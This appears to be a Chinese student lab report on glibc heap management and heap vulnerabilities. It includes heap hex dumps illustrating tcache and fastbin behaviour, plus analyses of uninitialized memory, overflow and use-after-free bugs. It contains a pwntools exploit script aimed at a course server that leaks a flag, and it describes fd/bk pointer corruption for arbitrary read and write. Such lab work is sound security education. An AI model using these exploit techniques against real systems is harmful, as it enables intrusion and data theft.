





# 堆上漏洞及其利用

##  堆管理器基础

### 实践1：目标程序逻辑与编译

​	这个程序是一个简单的用户信息管理系统，允许用户在内存中动态创建、编辑、查看和删除用户信息，并包含一个堆内存调试功能。在主程序中提供了交互菜单，提供了以下功能：

(1)**添加用户**

- **逻辑**：

  1. 查找 `infos` 中的空位（最多 16 个用户）。
  2. 为用户结构和简介字符串动态分配内存。
  3. 从输入读取用户的 `name`、`password`、`intro` 和 `motto`。
  4. 将新用户信息保存到数组中
- **边界处理**：
- 如果没有空位或内存不足，打印错误信息并返回。

**(2) 删除用户**

- **逻辑**
  1. 根据索引查找用户信息，验证用户密码。
  2. 如果密码正确，释放动态分配的用户结构和简介字符串。
  3. 将对应的数组位置置为 `NULL`。
- **边界处理**
  - 检查用户是否存在以及密码是否正确。

**(3) 查看用户**

- **逻辑**
  1. 根据索引查找用户信息，验证用户密码。
  2. 如果密码正确，打印用户的详细信息（包括 `name`、`motto` 和 `intro`）。
- **边界处理**
  - 同删除用户的检查逻辑。

**(4) 编辑用户**

- **逻辑**
  1. 根据索引查找用户信息，验证用户密码。
  2. 如果密码正确，更新用户的 `name`、`intro` 和 `motto`。
- **边界处理**
  - 同删除用户的检查逻辑。

**(5) `heap_debug()`**

1. 读取 `/proc/self/maps`，获取当前程序堆的起始地址。
2. 将堆的内容转储到一个文件中（文件名根据堆地址和计数器生成）。

- **用途**：便于开发者调试堆的使用情况，例如检测内存泄漏或数据损坏。


以下为执行`ldd`后的运行截图

 


### 实践2：堆内存分析

#### dump*.bin完整内容

```
00000000  00 00 00 00 00 00 00 00  91 02 00 00 00 00 00 00  |................|
00000010  00 00 00 00 00 00 07 00  00 00 07 00 00 00 00 00  |................|
00000020  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*
000000a0  00 00 00 00 00 00 00 00  10 63 3b 02 00 00 00 00  |.........c;.....|
000000b0  00 00 00 00 00 00 00 00  a0 62 3b 02 00 00 00 00  |.........b;.....|
000000c0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*
00000290  00 00 00 00 00 00 00 00  71 00 00 00 00 00 00 00  |........q.......|
000002a0  60 63 3b 02 00 00 00 00  10 60 3b 02 00 00 00 00  |`c;......`;.....|
000002b0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
000002c0  31 32 33 34 35 36 00 00  00 00 00 00 00 00 00 00  |123456..........|
000002d0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
000002e0  10 63 3b 02 00 00 00 00  74 72 79 20 65 76 65 72  |.c;.....try ever|
000002f0  79 74 68 69 6e 67 00 00  00 00 00 00 00 00 00 00  |ything..........|
00000300  00 00 00 00 00 00 00 00  51 00 00 00 00 00 00 00  |........Q.......|
00000310  d0 63 3b 02 00 00 00 00  10 60 3b 02 00 00 00 00  |.c;......`;.....|
00000320  6d 20 62 6f 62 00 00 00  00 00 00 00 00 00 00 00  |m bob...........|
00000330  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*
00000350  00 00 00 00 00 00 00 00  71 00 00 00 00 00 00 00  |........q.......|
00000360  20 64 3b 02 00 00 00 00  10 60 3b 02 00 00 00 00  | d;......`;.....|
00000370  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000380  36 35 34 33 32 31 00 00  00 00 00 00 00 00 00 00  |654321..........|
00000390  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
000003a0  d0 63 3b 02 00 00 00 00  65 61 74 20 6d 6f 72 65  |.c;.....eat more|
000003b0  20 76 65 67 65 74 61 62  6c 65 73 00 00 00 00 00  | vegetables.....|
000003c0  00 00 00 00 00 00 00 00  51 00 00 00 00 00 00 00  |........Q.......|
000003d0  90 64 3b 02 00 00 00 00  10 60 3b 02 00 00 00 00  |.d;......`;.....|
000003e0  6d 20 61 6c 69 63 65 00  00 00 00 00 00 00 00 00  |m alice.........|
000003f0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*
00000410  00 00 00 00 00 00 00 00  71 00 00 00 00 00 00 00  |........q.......|
00000420  e0 64 3b 02 00 00 00 00  10 60 3b 02 00 00 00 00  |.d;......`;.....|
00000430  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000440  61 62 63 33 32 31 00 00  00 00 00 00 00 00 00 00  |abc321..........|
00000450  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000460  90 64 3b 02 00 00 00 00  3c 62 6c 61 6e 6b 2f 3e  |.d;.....<blank/>|
00000470  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000480  00 00 00 00 00 00 00 00  51 00 00 00 00 00 00 00  |........Q.......|
00000490  50 65 3b 02 00 00 00 00  10 60 3b 02 00 00 00 00  |Pe;......`;.....|
000004a0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*
000004d0  00 00 00 00 00 00 00 00  71 00 00 00 00 00 00 00  |........q.......|
000004e0  a0 65 3b 02 00 00 00 00  10 60 3b 02 00 00 00 00  |.e;......`;.....|
000004f0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000500  70 34 73 73 77 30 72 64  00 00 00 00 00 00 00 00  |p4ssw0rd........|
00000510  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000520  50 65 3b 02 00 00 00 00  2e 2e 2e 00 00 00 00 00  |Pe;.............| 
00000530  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000540  00 00 00 00 00 00 00 00  51 00 00 00 00 00 00 00  |........Q.......|
00000550  10 66 3b 02 00 00 00 00  10 60 3b 02 00 00 00 00  |.f;......`;.....|
00000560  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*
00000590  00 00 00 00 00 00 00 00  71 00 00 00 00 00 00 00  |........q.......|
000005a0  60 66 3b 02 00 00 00 00  10 60 3b 02 00 00 00 00  |`f;......`;.....|
000005b0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
000005c0  61 61 61 62 62 62 00 00  00 00 00 00 00 00 00 00  |aaabbb..........|
000005d0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
000005e0  10 66 3b 02 00 00 00 00  3c 61 6c 65 72 74 3e 00  |.f;.....<alert>.|
000005f0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000600  00 00 00 00 00 00 00 00  51 00 00 00 00 00 00 00  |........Q.......|
00000610  d0 66 3b 02 00 00 00 00  10 60 3b 02 00 00 00 00  |.f;......`;.....|
00000620  74 65 72 20 74 68 61 6e  20 75 67 6c 79 00 00 00  |ter than ugly...|
00000630  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*
00000650  00 00 00 00 00 00 00 00  71 00 00 00 00 00 00 00  |........q.......|
00000660  20 67 3b 02 00 00 00 00  10 60 3b 02 00 00 00 00  | g;......`;.....|
00000670  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000680  6d 61 72 6b 6e 62 31 31  00 00 00 00 00 00 00 00  |marknb11........|
00000690  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
000006a0  d0 66 3b 02 00 00 00 00  77 61 74 63 68 20 6f 75  |.f;.....watch ou|
000006b0  74 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |t...............|
000006c0  00 00 00 00 00 00 00 00  51 00 00 00 00 00 00 00  |........Q.......|
000006d0  90 67 3b 02 00 00 00 00  10 60 3b 02 00 00 00 00  |.g;......`;.....|
000006e0  65 72 20 74 68 61 6e 20  69 6d 70 6c 69 63 69 74  |er than implicit|
000006f0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*
00000710  00 00 00 00 00 00 00 00  71 00 00 00 00 00 00 00  |........q.......|
00000720  00 00 00 00 00 00 00 00  10 60 3b 02 00 00 00 00  |.........`;.....|
00000730  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000740  6d 39 35 30 35 32 34 00  00 00 00 00 00 00 00 00  |m950524.........|
00000750  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000760  90 67 3b 02 00 00 00 00  5f 5f 5f 5f 5f 5f 5f 5f  |.g;.....________|
00000770  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000780  00 00 00 00 00 00 00 00  51 00 00 00 00 00 00 00  |........Q.......|
00000790  00 00 00 00 00 00 00 00  10 60 3b 02 00 00 00 00  |.........`;.....|
000007a0  6e 74 21 20 76 69 6e 63  65 6e 74 00 00 00 00 00  |nt! vincent.....|
000007b0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*
000007d0  00 00 00 00 00 00 00 00  71 00 00 00 00 00 00 00  |........q.......|
000007e0  57 69 6c 6c 69 61 6d 00  00 00 00 00 00 00 00 00  |William.........|
000007f0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000800  77 69 6c 6c 33 32 31 32  33 00 00 00 00 00 00 00  |will32123.......|
00000810  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000820  50 68 3b 02 00 00 00 00  69 27 6d 20 66 69 6e 65  |Ph;.....i'm fine|
00000830  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000840  00 00 00 00 00 00 00 00  51 00 00 00 00 00 00 00  |........Q.......|
00000850  64 47 39 76 62 32 39 76  62 32 39 76 62 32 39 6f  |dG9vb29vb29vb29o|
00000860  59 57 35 6b 63 32 39 74  5a 51 3d 3d 00 00 00 00  |YW5kc29tZQ==....|
00000870  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*
00000890  00 00 00 00 00 00 00 00  71 00 00 00 00 00 00 00  |........q.......|
000008a0  4a 6f 73 65 70 68 00 00  00 00 00 00 00 00 00 00  |Joseph..........|
000008b0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
000008c0  6a 6a 6a 37 38 39 00 00  00 00 00 00 00 00 00 00  |jjj789..........|
000008d0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
000008e0  10 69 3b 02 00 00 00 00  54 65 61 63 68 20 6d 65  |.i;.....Teach me|
000008f0  20 61 6e 64 20 49 20 72  65 6d 65 6d 62 65 72 2e  | and I remember.|
00000900  00 00 00 00 00 00 00 00  51 00 00 00 00 00 00 00  |........Q.......|
00000910  58 44 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |XD..............|
00000920  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*
00000950  00 00 00 00 00 00 00 00  71 00 00 00 00 00 00 00  |........q.......|
00000960  48 65 72 72 79 00 00 00  00 00 00 00 00 00 00 00  |Herry...........|
00000970  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000980  68 41 42 43 33 32 31 00  00 00 00 00 00 00 00 00  |hABC321.........|
00000990  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
000009a0  d0 69 3b 02 00 00 00 00  68 61 72 64 2d 77 6f 72  |.i;.....hard-wor|
000009b0  6b 69 6e 67 21 00 00 00  00 00 00 00 00 00 00 00  |king!...........|
000009c0  00 00 00 00 00 00 00 00  51 00 00 00 00 00 00 00  |........Q.......|
000009d0  6e 6f 20 69 6e 74 72 6f  20 61 74 20 61 6c 6c 00  |no intro at all.|
000009e0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*
00000a10  00 00 00 00 00 00 00 00  71 00 00 00 00 00 00 00  |........q.......|
00000a20  47 61 72 79 00 00 00 00  00 00 00 00 00 00 00 00  |Gary............|
00000a30  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000a40  67 67 77 70 32 30 32 34  00 00 00 00 00 00 00 00  |ggwp2024........|
00000a50  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000a60  90 6a 3b 02 00 00 00 00  49 20 6e 65 76 65 72 20  |.j;.....I never |
00000a70  77 61 6c 6b 20 62 61 63  6b 77 61 72 64 73 2e 00  |walk backwards..|
00000a80  00 00 00 00 00 00 00 00  51 00 00 00 00 00 00 00  |........Q.......|
00000a90  74 68 65 20 62 65 73 74  20 67 61 72 79 20 69 6e  |the best gary in|
00000aa0  20 74 68 65 20 77 6f 72  6c 64 00 00 00 00 00 00  | the world......|
00000ab0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*
00000ad0  00 00 00 00 00 00 00 00  31 05 02 00 00 00 00 00  |........1.......|
00000ae0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*
00001000
```

#### 内存管理示意图

​	如图所示为内存管理的示意图。图中每个由0x70的chunk+0x50的组成的内存空间为一个user的空间，其中每个0x70的chunk中存储了一个指向0x50的chunk的指针，即程序中的`intro`指针，在图中用绿色箭头表示。图中前7个user空间的内存已经被释放，bk指针全部指向最上方的0x023b6010，即tcache管理`tcache_perthread_struct` 的堆块，图中为最右侧的红色箭头。对于每一个被释放的chunk，其中的fd指针指向下一个size相同的被释放的chunk，直到最后一个fd指针为空，图中用左侧的红色箭头表示（0x50和0x70分别依次链接）。



### 实践3

​	以下为新生成的bin文件，可见free掉的`William` 和 `Joseph`的内存块中bk指针位置为空。由计算可知，先前释放的7块内存将tcache中的0x50和0x70模块填满，`William` 和 `Joseph`的堆块没有存储位置，不再位于tcache链表上，而是按照传统的堆内存处理方式，被放到了 fastbin 或者 unsorted bin 中。

```
00000000  00 00 00 00 00 00 00 00  91 02 00 00 00 00 00 00  |................|
00000010  00 00 00 00 00 00 07 00  00 00 07 00 00 00 00 00  |................|
00000020  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*
000000a0  00 00 00 00 00 00 00 00  10 63 84 01 00 00 00 00  |.........c......|
000000b0  00 00 00 00 00 00 00 00  a0 62 84 01 00 00 00 00  |.........b......|
000000c0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*
00000290  00 00 00 00 00 00 00 00  71 00 00 00 00 00 00 00  |........q.......|
000002a0  60 63 84 01 00 00 00 00  10 60 84 01 00 00 00 00  |`c.......`......|
000002b0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
000002c0  31 32 33 34 35 36 00 00  00 00 00 00 00 00 00 00  |123456..........|
000002d0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
000002e0  10 63 84 01 00 00 00 00  74 72 79 20 65 76 65 72  |.c......try ever|
000002f0  79 74 68 69 6e 67 00 00  00 00 00 00 00 00 00 00  |ything..........|
00000300  00 00 00 00 00 00 00 00  51 00 00 00 00 00 00 00  |........Q.......|
00000310  d0 63 84 01 00 00 00 00  10 60 84 01 00 00 00 00  |.c.......`......|
00000320  6d 20 62 6f 62 00 00 00  00 00 00 00 00 00 00 00  |m bob...........|
00000330  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*
00000350  00 00 00 00 00 00 00 00  71 00 00 00 00 00 00 00  |........q.......|
00000360  20 64 84 01 00 00 00 00  10 60 84 01 00 00 00 00  | d.......`......|
00000370  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000380  36 35 34 33 32 31 00 00  00 00 00 00 00 00 00 00  |654321..........|
00000390  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
000003a0  d0 63 84 01 00 00 00 00  65 61 74 20 6d 6f 72 65  |.c......eat more|
000003b0  20 76 65 67 65 74 61 62  6c 65 73 00 00 00 00 00  | vegetables.....|
000003c0  00 00 00 00 00 00 00 00  51 00 00 00 00 00 00 00  |........Q.......|
000003d0  90 64 84 01 00 00 00 00  10 60 84 01 00 00 00 00  |.d.......`......|
000003e0  6d 20 61 6c 69 63 65 00  00 00 00 00 00 00 00 00  |m alice.........|
000003f0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*
00000410  00 00 00 00 00 00 00 00  71 00 00 00 00 00 00 00  |........q.......|
00000420  e0 64 84 01 00 00 00 00  10 60 84 01 00 00 00 00  |.d.......`......|
00000430  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000440  61 62 63 33 32 31 00 00  00 00 00 00 00 00 00 00  |abc321..........|
00000450  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000460  90 64 84 01 00 00 00 00  3c 62 6c 61 6e 6b 2f 3e  |.d......<blank/>|
00000470  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000480  00 00 00 00 00 00 00 00  51 00 00 00 00 00 00 00  |........Q.......|
00000490  50 65 84 01 00 00 00 00  10 60 84 01 00 00 00 00  |Pe.......`......|
000004a0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*
000004d0  00 00 00 00 00 00 00 00  71 00 00 00 00 00 00 00  |........q.......|
000004e0  a0 65 84 01 00 00 00 00  10 60 84 01 00 00 00 00  |.e.......`......|
000004f0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000500  70 34 73 73 77 30 72 64  00 00 00 00 00 00 00 00  |p4ssw0rd........|
00000510  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000520  50 65 84 01 00 00 00 00  2e 2e 2e 00 00 00 00 00  |Pe..............|
00000530  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000540  00 00 00 00 00 00 00 00  51 00 00 00 00 00 00 00  |........Q.......|
00000550  10 66 84 01 00 00 00 00  10 60 84 01 00 00 00 00  |.f.......`......|
00000560  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*
00000590  00 00 00 00 00 00 00 00  71 00 00 00 00 00 00 00  |........q.......|
000005a0  60 66 84 01 00 00 00 00  10 60 84 01 00 00 00 00  |`f.......`......|
000005b0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
000005c0  61 61 61 62 62 62 00 00  00 00 00 00 00 00 00 00  |aaabbb..........|
000005d0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
000005e0  10 66 84 01 00 00 00 00  3c 61 6c 65 72 74 3e 00  |.f......<alert>.|
000005f0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000600  00 00 00 00 00 00 00 00  51 00 00 00 00 00 00 00  |........Q.......|
00000610  d0 66 84 01 00 00 00 00  10 60 84 01 00 00 00 00  |.f.......`......|
00000620  74 65 72 20 74 68 61 6e  20 75 67 6c 79 00 00 00  |ter than ugly...|
00000630  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*
00000650  00 00 00 00 00 00 00 00  71 00 00 00 00 00 00 00  |........q.......|
00000660  20 67 84 01 00 00 00 00  10 60 84 01 00 00 00 00  | g.......`......|
00000670  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000680  6d 61 72 6b 6e 62 31 31  00 00 00 00 00 00 00 00  |marknb11........|
00000690  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
000006a0  d0 66 84 01 00 00 00 00  77 61 74 63 68 20 6f 75  |.f......watch ou|
000006b0  74 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |t...............|
000006c0  00 00 00 00 00 00 00 00  51 00 00 00 00 00 00 00  |........Q.......|
000006d0  90 67 84 01 00 00 00 00  10 60 84 01 00 00 00 00  |.g.......`......|
000006e0  65 72 20 74 68 61 6e 20  69 6d 70 6c 69 63 69 74  |er than implicit|
000006f0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*
00000710  00 00 00 00 00 00 00 00  71 00 00 00 00 00 00 00  |........q.......|
00000720  00 00 00 00 00 00 00 00  10 60 84 01 00 00 00 00  |.........`......|
00000730  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000740  6d 39 35 30 35 32 34 00  00 00 00 00 00 00 00 00  |m950524.........|
00000750  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000760  90 67 84 01 00 00 00 00  5f 5f 5f 5f 5f 5f 5f 5f  |.g......________|
00000770  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000780  00 00 00 00 00 00 00 00  51 00 00 00 00 00 00 00  |........Q.......|
00000790  00 00 00 00 00 00 00 00  10 60 84 01 00 00 00 00  |.........`......|
000007a0  6e 74 21 20 76 69 6e 63  65 6e 74 00 00 00 00 00  |nt! vincent.....|
000007b0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*
000007d0  00 00 00 00 00 00 00 00  71 00 00 00 00 00 00 00  |........q.......|
000007e0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*
00000800  77 69 6c 6c 33 32 31 32  33 00 00 00 00 00 00 00  |will32123.......|
00000810  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000820  50 68 84 01 00 00 00 00  69 27 6d 20 66 69 6e 65  |Ph......i'm fine|
00000830  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000840  00 00 00 00 00 00 00 00  51 00 00 00 00 00 00 00  |........Q.......|
00000850  00 00 00 00 00 00 00 00  62 32 39 76 62 32 39 6f  |........b29vb29o|
00000860  59 57 35 6b 63 32 39 74  5a 51 3d 3d 00 00 00 00  |YW5kc29tZQ==....|
00000870  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*
00000890  00 00 00 00 00 00 00 00  71 00 00 00 00 00 00 00  |........q.......|
000008a0  d0 67 84 01 00 00 00 00  00 00 00 00 00 00 00 00  |.g..............|
000008b0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
000008c0  6a 6a 6a 37 38 39 00 00  00 00 00 00 00 00 00 00  |jjj789..........|
000008d0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
000008e0  10 69 84 01 00 00 00 00  54 65 61 63 68 20 6d 65  |.i......Teach me|
000008f0  20 61 6e 64 20 49 20 72  65 6d 65 6d 62 65 72 2e  | and I remember.|
00000900  00 00 00 00 00 00 00 00  51 00 00 00 00 00 00 00  |........Q.......|
00000910  40 68 84 01 00 00 00 00  00 00 00 00 00 00 00 00  |@h..............|
00000920  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*
00000950  00 00 00 00 00 00 00 00  71 00 00 00 00 00 00 00  |........q.......|
00000960  48 65 72 72 79 00 00 00  00 00 00 00 00 00 00 00  |Herry...........|
00000970  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000980  68 41 42 43 33 32 31 00  00 00 00 00 00 00 00 00  |hABC321.........|
00000990  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
000009a0  d0 69 84 01 00 00 00 00  68 61 72 64 2d 77 6f 72  |.i......hard-wor|
000009b0  6b 69 6e 67 21 00 00 00  00 00 00 00 00 00 00 00  |king!...........|
000009c0  00 00 00 00 00 00 00 00  51 00 00 00 00 00 00 00  |........Q.......|
000009d0  6e 6f 20 69 6e 74 72 6f  20 61 74 20 61 6c 6c 00  |no intro at all.|
000009e0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*
00000a10  00 00 00 00 00 00 00 00  71 00 00 00 00 00 00 00  |........q.......|
00000a20  47 61 72 79 00 00 00 00  00 00 00 00 00 00 00 00  |Gary............|
00000a30  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000a40  67 67 77 70 32 30 32 34  00 00 00 00 00 00 00 00  |ggwp2024........|
00000a50  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000a60  90 6a 84 01 00 00 00 00  49 20 6e 65 76 65 72 20  |.j......I never |
00000a70  77 61 6c 6b 20 62 61 63  6b 77 61 72 64 73 2e 00  |walk backwards..|
00000a80  00 00 00 00 00 00 00 00  51 00 00 00 00 00 00 00  |........Q.......|
00000a90  74 68 65 20 62 65 73 74  20 67 61 72 79 20 69 6e  |the best gary in|
00000aa0  20 74 68 65 20 77 6f 72  6c 64 00 00 00 00 00 00  | the world......|
00000ab0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*
00000ad0  00 00 00 00 00 00 00 00  31 05 02 00 00 00 00 00  |........1.......|
00000ae0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*
00001000
```

## 堆上常见漏洞

#### Uninit

​	程序相比exampl.c少了`memset()`函数，即在处理用户添加时没有对堆进行初始化。观察到程序中使用`malloc()`申请了一个内存为0x40的字符串`flag`，并进行了`free()`操作，即将`flag`放入了tcache。同时，程序中对于`info->intro`的内存申请大小也为0x40，那么在第一次申请`info->intro`的时候，对应的chunk内就存储了所要的flag。因此，只需进行一次add操作，再进行一次show操作就可以暴露出程序中的flag。

```python
from pwn import *
from typing import Tuple
import re

def handle_add(name: bytes, password: bytes, intro: bytes, motto: bytes) -> int:
    p.recvuntil(b"[ 5 ] leave\n> ")
    p.sendline(b"1")
    p.recvuntil(b"name > ")
    p.sendline(name)
    p.recvuntil(b"password > ")
    p.sendline(password)
    p.recvuntil(b"introduction > ")
    p.sendline(intro)
    p.recvuntil(b"motto > ")
    p.sendline(motto)
    p.recvuntil(b"at index ", drop=True)
    data = p.recvline().strip()
    return int(data)

def handle_del(index: int, password: bytes) -> None:
    p.recvuntil(b"[ 5 ] leave\n> ")
    p.sendline(b"2")
    p.recvuntil(b"index > ")
    p.sendline(str(index).encode())
    p.recvuntil(b"password > ")
    p.sendline(password)
    return

def handle_show(index: int, password: bytes) -> Tuple[bytes, bytes, bytes]:
    p.recvuntil(b"[ 5 ] leave\n> ")
    p.sendline(b"3")
    p.recvuntil(b"index > ")
    p.sendline(str(index).encode())
    p.recvuntil(b"password > ")
    p.sendline(password)
    p.recvuntil(b"user name: ")
    recv_name = p.recvline().strip()
    p.recvuntil(b"user motto: ")
    recv_motto = p.recvline().strip()
    p.recvuntil(b"user intro: ")
    recv_intro = p.recvline().strip()
    return recv_name, recv_motto, recv_intro

def handle_edit(
    index: int, password: bytes, edit_name: bytes, edit_intro: bytes, edit_motto: bytes
):
    p.recvuntil(b"[ 5 ] leave\n> ")
    p.sendline(b"4")
    p.recvuntil(b"index > ")
    p.sendline(str(index).encode())
    p.recvuntil(b"password > ")
    p.sendline(password)

    p.recvuntil(b"new name > ")
    p.sendline(edit_name)
    p.recvuntil(b"new introduction > ")
    p.sendline(edit_intro)
    p.recvuntil(b"new motto > ")
    p.sendline(edit_motto)
    return

p = remote('8.154.20.109',10400)
p.recvuntil(b'StudentID:\n')
p.sendline(b'----------')//学号
# p = process('./uninit')  
elf = ELF("./uninit")
A = handle_add(b'AAA',b'AAA',b'the sacred and awesome flag is ',b'AAA')
handle_show(A,b'AAA')
p.interactive()

```

 

#### Overflow

```c
read(0, info->intro, 0x60);
```

​	程序中这一段代码存在overflow问题。在程序中，为`info->intro`分配的内存空间为0x40，但是在`user_edit()`函数中对于`info->intro`的读取长度限制到了0x60，也就是说溢出了0x20的内存。根据堆上的空间分布，溢出的内存可以填充下一个chunk的pre_size，size，fd指针以及bd指针。利用这个漏洞，可以篡改fd和bk指针，以达成任意内存空间读写的操作，详细攻击代码见【堆上漏洞的利用】模块。

#### Uaf

```C
// infos[index] = NULL;
```

